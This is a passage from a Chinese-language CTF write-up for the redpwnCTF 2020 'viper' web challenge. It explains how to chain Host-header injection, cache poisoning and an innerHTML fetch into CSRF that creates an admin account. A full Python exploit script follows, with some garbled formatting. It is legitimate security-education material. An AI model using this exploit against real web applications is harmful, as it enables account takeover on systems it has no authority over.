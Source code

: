 ```
fetch(document.getElementById("analyticsUrl").innerHTML)
```

fetch可以请求网址，正好可以用来csrf。最后因为要传两个参需要`&amp;`,但是`innerHTML`提取时`&amp;`会被解析，使用注释符号包裹`innerHTML`提取就不会解析`&amp;`了。

最后构造的host

```
Host: 2020.redpwnc.tf:31291admincreate?x=&lt;!--&amp;viperId=AAAAAAAA-AAAA-4AAA-8AAA-AAAAAAAAAAAA&amp;csrfToken=&lt;BASE64 encoded token&gt;#--&gt;
```

exp

```
#!/usr/bin/env python3
import requests, socket, re
import uuid
from urllib.parse import quote
from base64 import b64encode

HOST, PORT = "2020.redpwnc.tf", 31291
#HOST, PORT = "localhost", 31337

ADMIN_VIPER = str(uuid.uuid4())

# Create new viper and fetch cookie and Viper ID
r = requests.get("http://`{``}`:`{``}`/create".format(HOST,PORT), allow_redirects=False)
viper_id = re.findall("([a-f0-9]`{`8`}`-[a-f0-9]`{`4`}`-[a-f0-9]`{`4`}`-[a-f0-9]`{`4`}`-[a-f0-9]`{`12`}`)", r.text)[0]
sessid = r.cookies["connect.sid"]
cookies = `{`"connect.sid" : sessid`}`

# Get the csrf token
r = requests.get("http://`{``}`:`{``}`/analytics?ip_address=__csrftoken__admin_account".format(HOST, PORT))
csrftoken = quote(b64encode(r.text.split()[-2].encode()))

# Inject host header
payload = ""
payload += "GET /viper/`{``}` HTTP/1.1rn".format(viper_id)
payload += "Host: `{``}`:`{``}`\admin\create?x=&lt;!--&amp;viperId=`{``}`&amp;csrfToken=`{``}`#--&gt;rn".format(HOST, PORT, ADMIN_VIPER, csrftoken)
payload += "Accept: */*rn"
payload += "Cookie: connect.sid=`{``}`rn".format(sessid)
payload += "rn"

s = socket.socket()
s.connect((HOST, PORT))
s.sendall(payload.encode())
print(s.recv(32768))
s.close()

# Cache request
r = requests.get("http://`{``}`:`{``}`/viper/`{``}`".format(HOST, PORT, viper_id), cookies=cookies)
print(r.text)

print("Send this URL to the admin")
print("http://`{``}`:`{``}`/viper/`{``}`".format(HOST, PORT, viper_id))

while True:
    input("nClick to continue fetching http://`{``}`:`{``}`/viper/`{``}` ... ".format(HOST, PORT, ADMIN_VIPER))
    r = requests.get("http://`{``}`:`{``}`/viper/`{``}`".format(HOST, PORT, ADMIN_VIPER), cookies=cookies)
```